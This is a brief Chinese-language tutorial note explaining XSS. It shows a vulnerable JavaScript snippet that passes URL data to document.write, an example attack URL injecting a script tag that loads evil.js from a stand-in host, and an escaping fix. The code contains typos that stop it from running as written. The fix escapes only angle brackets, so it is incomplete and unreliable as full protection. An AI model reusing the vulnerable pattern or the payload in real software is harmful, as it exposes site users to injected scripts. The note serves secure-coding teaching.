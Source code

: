 ### XSS (Cross-Sit Scripting)

1. 攻击原理
> 错误使用恶意数据动态创建文档内容:
```javascript
var name = decodeURIComponent(windown.location.href.substring(1) || '')  // 获取数据
documnet.write(name) // 动态创建内容

// 理想状态： http://www.example.come/hello?Ally 
// 恶意代码：http://www.example.com/hello?%3Cscript src=siteB/evil.js %3E%3Cscript%3E 则会执行 evil.js 
```

2. 解决方案
> 对使用来自任何不可信的数据动态创建文档前需要进行字符串替换:
```javascript
name = name.replace(/</g,'&lt;').replace(/>/g,'&gt;')
```
